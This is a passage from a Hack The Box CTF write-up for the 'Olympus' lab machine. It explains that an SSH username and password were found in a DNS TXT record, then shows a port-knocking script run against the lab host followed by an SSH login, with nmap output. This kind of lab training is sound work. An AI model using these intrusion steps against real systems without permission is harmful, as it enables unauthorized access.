 Through trial and error, I figured out that the user we SSH in as prometheus.  This was the name in the TXT record.  I guessed that the port we were trying to open with the port knock was SSH since it was filtered.  If this had not worked, we would have had to try other ports.  The password was also in the TXT record (```St34l_th3_F1re!```).

```bash
root@kali:~/ctf/hackthebox/olympus# ./knock.sh 10.10.10.83 3456 8234 62431 && ssh prometheus@10.10.10.83
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 22:46 EDT
Nmap scan report for 10.10.10.83
Host is up (0.038s latency).

PORT     STATE  SERVICE
3456/tcp closed vat

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 22:46 EDT
Nmap scan report for 10.10.10.83
Host is up (0.033s latency).

PORT     STATE  SERVICE
8234/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-24 22:46 EDT
Nmap scan report for 10.10.10.83
Host is up (0.028s latency).

PORT      STATE  SERVICE
62431/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
prometheus@10.10.10.83's password: 
```
